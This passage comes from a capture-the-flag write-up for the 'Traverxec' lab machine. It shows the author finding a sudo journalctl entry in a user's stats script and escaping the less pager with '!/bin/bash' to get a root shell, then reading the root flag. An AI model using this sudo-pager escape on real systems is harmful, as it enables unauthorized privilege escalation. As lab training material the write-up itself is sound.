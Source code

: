 This shows us that something interesting is probably in `/home/david/bin`

```bash
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.head
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""'

david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

`server-stats.head` is just a text file and doesn't look interesting at all. `server-stats.sh` does show something interesting, David can execute `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` so we have a path to root now.

Searching for `journalctl` on [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/) shows that `journalctl` will invoke the default pager (likely less) and less can be turned into bash by running `!/bin/bash`.

The first attempt to run `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` only printed the 5 lines and less got closed so we couldn't open bash. Resizing the window to make sure less pauses does give us the option to execute `!/bin/bash` and have a root shell.

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Mon 2020-06-15 04:58:37 EDT, end at Mon 2020-06-15 10:41:45 EDT. --
Jun 15 08:24:58 traverxec crontab[1225]: (www-data) LIST (www-data)
Jun 15 08:24:58 traverxec sudo[1388]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/0 ru
Jun 15 08:25:01 traverxec sudo[1388]: pam_unix(sudo:auth): conversation failed
Jun 15 08:25:01 traverxec sudo[1388]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Jun 15 08:25:01 traverxec sudo[1388]: www-data : command not allowed ; TTY=pts/0 ; PWD=/tmp ; USER=root ; COMMAND=list
!/bin/bash
root@traverxec:/home/david/bin# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david/bin# cd /root/
root@traverxec:~# cat root.txt
9aa36a6d************************
```
